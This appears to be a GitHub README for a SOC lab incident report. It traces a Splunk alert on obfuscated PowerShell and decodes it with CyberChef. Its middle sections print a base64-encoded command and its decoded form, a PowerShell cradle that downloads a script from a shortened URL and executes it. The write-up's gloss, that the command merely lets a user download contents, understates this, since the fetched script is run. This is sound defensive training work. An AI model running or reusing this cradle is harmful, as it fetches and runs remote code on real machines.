 
<h1>SOC-Lab-Incident-report </h1>

 

<h2>Introduction/Description</h2>
This project involves a virtual lab SOC event simulation that I created. In this lab, I was presented with log data intentionally designed to trigger an alert on the SIEM tool (Splunk) running on my network. Using snapshots of the data and tools, I will guide you through my thought process on how I triaged this entire event.
<br />


<h2>Languages and Utilities Used</h2>

- <b>PowerShell</b>
- <b>Splunk</b>
- <b>Linux VM</b>
- <b>Windows sandbox vm</b>
- <b>ANY.RUN(Sand Box Tool)</b>
- <b>Virus Total</b>
- <b>Cyber Chef</b>
<h2>Environments Used </h2>

- <b>Windows 7 sandbox VM</b>
- <b>Linux VM </b>


<h2>Program walk-through:</h2>

<p align="left">
 
## SPLUNK EVENT ALERT:
<img src="https://i.imgur.com/TtKAjut.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
 <br />As displayed in the Splunk window, this is the event triggered by the alert we received. The alert I received pertains to the execution of a process that is obfuscated. In the Splunk event viewer, you can observe information such as the time and date of the event, event ID, name of the user, username login of the user, type of ingested log data, and more. 
<br />

## SPLUNK EVENT ALERT :
<img src="https://i.imgur.com/258BqEd.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
 
<br />As you scroll down in the event viewer window in splunk you are given more information about the event. Here you can see the process information such as the "Creator process name"= C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe and the "Process Command line": "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"-enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AYgBpAHQALgBsAHkALwBlADAATQB3ADkAdwAiACkA. This obfuscated command line is what caused our alert in splunk and is what we are going to be investigating. :
<br />



## CYBER CHEF: <br/>
<img src="https://imgur.com/YPxZFGM.png" height="80%" width="80%" alt="Disk Sanitization Steps"/>
<br /> As you examine the process command line, you can observe that it is obfuscated. Following the ".exe," which represents the execution process, you can see the presence of "-enc" to encode the actual execution. To understand what the process command line is attempting to do, it's necessary to decode it and assess its potential malicious nature. In this instance, I utilized a decryption tool called CyberChef. The output result reveals "iex (New-Object Net.WebClient).DownloadString("http://bit.ly/e0Mw9w")", which essentially directs a user to the specified URL, allowing them to download contents from the listed URL.
<br />
